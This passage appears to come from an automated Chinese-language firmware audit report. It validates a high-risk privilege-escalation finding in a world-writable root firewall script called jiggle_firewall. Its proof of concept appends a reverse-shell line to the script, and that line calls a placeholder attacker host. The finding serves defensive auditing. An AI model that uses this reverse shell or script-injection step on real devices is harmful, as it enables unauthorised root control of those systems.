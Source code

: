 - **验证时长：** 401.06 秒
- **Token 使用量：** 570480

---

## 原始信息

- **文件/目录路径：** `usr/local/bin/jiggle_firewall`
- **位置：** `usr/local/bin/jiggle_firewall:1 (整个文件)`
- **描述：** 文件 'jiggle_firewall' 具有全局读、写、执行权限（-rwxrwxrwx），允许任何用户修改脚本内容。脚本调用 'fw restart' 和 iptables 命令，这些通常需要 root 权限，表明脚本可能以 root 身份执行。攻击者可以通过修改脚本注入恶意命令（如反向 shell 或 setuid shell），当脚本被系统触发时（如防火墙状态检查），恶意代码将以 root 权限运行。触发条件：攻击者拥有有效登录凭据（非root），并可以写入该文件；脚本需要以 root 权限执行（假设由系统服务调用）。利用方式：直接修改脚本内容并等待执行。
- **代码片段：**
  ```
  #!/bin/sh
  
  LOGGER="logger -t jiggle_firewall -p daemon.notice"
  $LOGGER Checking firewall state...
  for i in 1 2 3 4 5 6 7 8 9 10; do
  	iptables -L forward | grep zone_lan_forward >/dev/null && break
  	$LOGGER Jiggling firewall - attempt $i
  	fw restart
  	sleep 1
  done
  
  iptables -L forward | grep zone_lan_forward >/dev/null || $LOGGER Firewall is still broken && $LOGGER Firewall looks ok
  ```
- **备注：** 攻击链完整且可验证：文件权限允许修改，脚本可能以 root 执行。建议验证执行上下文（如通过 cron 或系统服务）和 'fw' 命令的路径。其他文件（如 'apply_appflow'、'reset_wan'）可能有类似权限问题，需进一步分析。

## 验证结论

- **描述准确性：** `accurate`
- **是否为真实漏洞：** `True`
- **风险级别：** `High`
- **详细原因：** 警报描述准确：文件权限为 -rwxrwxrwx，允许任何用户修改；脚本内容使用 iptables 和 'fw restart' 命令，这些通常需要 root 权限，表明脚本可能以 root 身份执行（例如由系统服务或 cron 触发）。攻击者模型为已认证的非 root 用户，他们可以写入文件并等待执行。漏洞可利用性验证：输入可控（文件可修改）、路径可达（脚本可能以 root 执行）、实际影响（权限提升）。完整攻击链：攻击者修改脚本注入恶意代码 → 系统触发脚本执行 → 恶意代码以 root 权限运行。可重现 PoC：攻击者登录系统（非 root），执行 'echo "malicious_command" >> /usr/local/bin/jiggle_firewall' 添加反向 shell（如 'bash -i >& /dev/tcp/attacker_ip/4444 0>&1'），当脚本被系统触发时，反向 shell 以 root 权限建立，允许攻击者完全控制设备。

## 验证指标

- **验证时长：** 201.06 秒
- **Token 使用量：** 315210

---

## 原始信息

